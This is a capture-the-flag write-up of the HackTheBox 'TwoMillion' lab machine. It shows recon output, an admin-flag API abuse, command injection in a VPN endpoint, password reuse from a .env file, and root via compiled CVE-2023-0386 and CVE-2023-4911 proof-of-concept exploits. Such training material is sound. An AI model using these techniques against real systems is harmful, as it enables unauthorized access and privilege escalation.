

# TwoMillion

TwoMillion is an Easy difficulty Linux box that was released to celebrate reaching 2 million users on HackTheBox. The box features an old version of the HackTheBox platform that includes the old hackable invite code. After hacking the invite code an account can be created on the platform. The account can be used to enumerate various API endpoints, one of which can be used to elevate the user to an Administrator. With administrative access the user can perform a command injection in the admin VPN generation endpoint thus gaining a system shell. An .env file is found to contain database credentials and owed to password re-use the attackers can login as user admin on the box. The system kernel is found to be outdated and CVE-2023-0386 can be used to gain a root shell.

## Recon

### nmap

```jsx
22/tcp   open     ssh     syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp   open     http    syn-ack     nginx
|_http-title: Did not follow redirect to http://2million.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
1021/tcp filtered exp1    no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 80





### Tech stack:

```jsx
~/hackthebox/machines/twomillion ᐅ whatweb http://2million.htb 
http://2million.htb [200 OK] Cookies[PHPSESSID], 
Country[RESERVED][ZZ], 
Email[info@hackthebox.eu], 
Frame, HTML5, 
HTTPServer[nginx], 
IP[10.129.229.66], 
Meta-Author[Hack The Box], Script, 
Title[Hack The Box :: Penetration Testing Labs], 
X-UA-Compatible[IE=edge], YouTube, nginx
```

### Directories:

```jsx
/home                 (Status: 302) [Size: 0] [--> /]
/login                (Status: 200) [Size: 3704]
/register             (Status: 200) [Size: 4527]
/api                  (Status: 401) [Size: 0]
/logout               (Status: 302) [Size: 0] [--> /]
/404                  (Status: 200) [Size: 1674]
/0404                 (Status: 200) [Size: 1674]
/invite               (Status: 200) [Size: 3859]
```

### Automated Vulnerability Scanning:

```markdown
[php-detect] [http] [info] http://2million.htb
[INF] Using Interactsh Server: oast.site
[missing-cookie-samesite-strict] [http] [info] http://2million.htb [PHPSESSID=3ccbeg0f1gatl94f3i8k7rd0sn; path=/]
[tech-detect:youtube] [http] [info] http://2million.htb
[tech-detect:nginx] [http] [info] http://2million.htb
[tech-detect:php] [http] [info] http://2million.htb
[http-missing-security-headers:permissions-policy] [http] [info] http://2million.htb
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://2million.htb
[http-missing-security-headers:clear-site-data] [http] [info] http://2million.htb
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://2million.htb
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://2million.htb
[http-missing-security-headers:strict-transport-security] [http] [info] http://2million.htb
[http-missing-security-headers:content-security-policy] [http] [info] http://2million.htb
[http-missing-security-headers:x-frame-options] [http] [info] http://2million.htb
[http-missing-security-headers:x-content-type-options] [http] [info] http://2million.htb
[http-missing-security-headers:referrer-policy] [http] [info] http://2million.htb
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://2million.htb
[waf-detect:nginxgeneric] [http] [info] http://2million.htb/
[caa-fingerprint] [dns] [info] 2million.htb
```

### User Input Fields


When I send the log in request it goes though `/api/v1/user/login` 


We can try to force the user and password but it is not the way in

### JavaScript

`Inviteapi.js`

```jsx
eval(function(p, a, c, k, e, d) {
    e = function(c) {
        return c.toString(36)
    }
    ;
    if (!''.replace(/^/, String)) {
        while (c--) {
            d[c.toString(a)] = k[c] || c.toString(a)
        }
        k = [function(e) {
            return d[e]
        }
        ];
        e = function() {
            return '\\w+'
        }
        ;
        c = 1
    }
    ;while (c--) {
        if (k[c]) {
            p = p.replace(new RegExp('\\b' + e(c) + '\\b','g'), k[c])
        }
    }
    return p
}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}', 24, 24, 'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, {}))
```

I have no fucking idea what this code does, but it looks obfuscated as hell

So we use this site: https://lelinhtinh.github.io/de4js/ and the results are like this:

```jsx
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
```

The first function `VerfyInviteCode()`  takes one argument: `code` then forms some json data that will be posted as `formData` to `/api/v1/invite/verify`

The the second function `makeInviteCode()` → calls `/api/v1/invite/how/to/generate` to generate a new invite code and logs the JSON response.

If we call the function in console we see that it returns ROT13 encrypted message: 


after decryption:


So we are going to send a a post request to the said path:

```jsx
~/hackthebox/machines/twomillion ᐅ curl -X POST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"Nk9RME4tTFFTTkYtRU9KRUMtVTdVTzA=","format":"encoded"}}%
```

We get a base64 encoded data, which reads as when decoded:

```jsx
/hackthebox/machines/twomillion ᐅ echo "Nk9RME4tTFFTTkYtRU9KRUMtVTdVTzA=" | base64 -d
6OQ0N-LQSNF-EOJEC-U7UO0
```

And Finally we get the invite code, we can verify the invite code using the `verifyInviteCode` function in the browser console:


It’s valid, we can use it to login


Finally we have access:


### API

The dashboard looks like old HTB UI with all functionality including how to download to VPN pack

also there is this error:


After going through the site, only 2 links worked:

change log:


Access:


Connection pack and regenerate both returns a `.ovpn` file.

Connection pack sends a GET request to `/api/v1/user/vpn/generate` and Regenerate sends a GET request to `/api/v1/user/vpn/regenerate`

I will send the `/api` request to burp and it returns the description


Then `/api/v1`


The request returns details about the full API

```json
{
  "v1": { 
    "user": {
      "GET": {
        "/api/v1": "Route List",  
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation", 
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

We can use the 

```json
"/api/v1/admin/auth": "Check if user is admin"
```


If I try to POST to `/api/v1/admin/vpn/generate` it returns 401 Unauthorized


However, a PUT request to `/api/v1/admin/settings/update` doesn’t return 401, but 200, with a different error in the body:


We can just add a content type header:


Then I will add the email:


Now it wants `is_admin`, so I’ll add that as `true`:


It’s looking for 0 or 1. I’ll set it to 1, and it seems to work:


if I try the verification again it says true:


### Initial Access

As my account is now an admin, I don’t get a 401 response anymore from `/api/v1/admin/vpn/generate` 


We can just add the username, and it generates a VPN key:


It’s probably not PHP code that generates a VPN key, but rather some Bash tools that generate the necessary information for a VPN key.

It’s worth checking if there is any command injection.

If the server is doing something like `gen_vpn.sh` [username], then I’ll try putting a ; in the username to break that into a new command. I’ll also add a # at the end to comment out anything that might come after my input. It works:


```json
www-data@2million:~/html$ ls -la 
total 56
drwxr-xr-x 10 root root 4096 Oct 29 19:30 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Oct 29 19:30 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

We can already see the `.env` file

### Privilege Escalation

These were the contents of the `.env` file:

```json
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123 
```

And if we attempt to use the password on SSH:

```json
~/hackthebox/machines/twomillion ᐅ ssh admin@2million.htb 

---snip---
admin@2million:~$ cat user.txt 
00cbc98758990c67b26e311bbb46ae8e
admin@2million:~$ 
```

### Root

When I logged in with SSH, there was a line in the banner that said admin had mail. That is held in in `/var/mail/admin`

```json
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

It talks about needing to patch the OS as well, and mentions a OverlayFS/FUSE CVE

```json
admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### CVE-2023-0386

OverlayFS is a union filesystem used in Linux that allows the merging of two directory structures into a single view with one directory acting as the upper layer and another as the lower layer.

The vulnerability in OverlayFS arises when different user namespaces are involved, and it can lead to privilege escalation.

POC: 

[https://github.com/xkaneiki/CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386)

We can download the POC as zip file then we can upload it using scp:

```bash
~/Downloads ᐅ sshpass -p SuperDuperPass123 scp CVE-2023-0386-master.zip admin@2million.htb:/tmp/
```

```bash
admin@2million:/tmp$ unzip CVE-2023-0386-master.zip 
Archive:  CVE-2023-0386-master.zip
737d8f4af6b18123443be2aed97ade5dc3757e63
   creating: CVE-2023-0386-master/
  inflating: CVE-2023-0386-master/Makefile  
  inflating: CVE-2023-0386-master/README.md  
  inflating: CVE-2023-0386-master/exp.c  
  inflating: CVE-2023-0386-master/fuse.c  
  inflating: CVE-2023-0386-master/getshell.c  
   creating: CVE-2023-0386-master/ovlcap/
 extracting: CVE-2023-0386-master/ovlcap/.gitkeep  
   creating: CVE-2023-0386-master/test/
  inflating: CVE-2023-0386-master/test/fuse_test.c  
  inflating: CVE-2023-0386-master/test/mnt  
  inflating: CVE-2023-0386-master/test/mnt.c  
admin@2million:/tmp$ ls
CVE-2023-0386-master
```

```bash
admin@2million:/tmp/CVE-2023-0386-master$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
```

Session 1:

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
```

Session 2:

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Oct 30 09:01 .
drwxrwxr-x 6 root   root     4096 Oct 30 09:01 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

```bash

root@2million:/tmp/CVE-2023-0386-master# 
root@2million:/tmp/CVE-2023-0386-master# 
root@2million:/tmp/CVE-2023-0386-master# 
root@2million:/tmp/CVE-2023-0386-master#
```

### Alternative root

[https://github.com/NishanthAnand21/CVE-2023-4911-PoC](https://github.com/NishanthAnand21/CVE-2023-4911-PoC)

```bash
admin@2million:/tmp/CVE-2023-4911-PoC-main$ ls
exploit.c  genlib.py  images  README.md
admin@2million:/tmp/CVE-2023-4911-PoC-main$ gcc exploit.c -o exp
admin@2million:/tmp/CVE-2023-4911-PoC-main$ python3 genlib.py 
admin@2million:/tmp/CVE-2023-4911-PoC-main$ ./exp 
try 100
try 200
try 300
try 400
# id
uid=0(root) gid=1000(admin) groups=1000(admin)
#
```